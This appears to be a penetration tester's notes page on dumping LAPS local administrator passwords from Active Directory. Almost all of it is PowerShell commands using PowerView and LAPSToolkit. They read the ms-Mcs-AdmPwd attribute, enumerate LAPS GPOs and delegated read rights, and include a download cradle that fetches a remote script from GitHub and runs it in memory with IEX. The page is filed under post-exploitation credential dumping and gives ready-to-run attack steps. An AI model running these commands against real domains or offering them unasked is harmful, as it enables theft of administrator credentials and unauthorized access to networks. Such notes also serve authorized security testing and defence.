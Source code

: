 # Scripts

## PowerSploit

```
PS C:\> Import-Module .\PowerView.ps1
```

Retrieve password.

```
PS C:\> Get-DomainObject -Identity <IP> -Properties ms-Mcs-AdmPwd
```

Find GPOs that have `LAPS` or some other descriptive term in the name.

```
PS C:\> Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | Select-Object DisplayName, Name, GPCFileSysPath | Format-List
```

Search computer objects where the `ms-Mcs-AdmPwdExpirationTime` property is not null (any Domain User can read this property).

```
PS C:\> Get-DomainObject -SearchBase "LDAP://[DC=<subdomain>,]DC=<domain>,DC=<tld>" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

```powershell
Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object {
($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') 
}
```

## LAPSToolkit

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1')
```

```
PS C:\> Get-LAPSComputers
```

```
PS C:\> Find-LAPSDelegatedGroups
```

```
PS C:\> Find-AdmPwdExtendedRights
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x03 - OS Credential Dumping/Windows/Active Directory/LAPS/Manual/Living off the Land]]

### Github

- [leoloobeek: LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)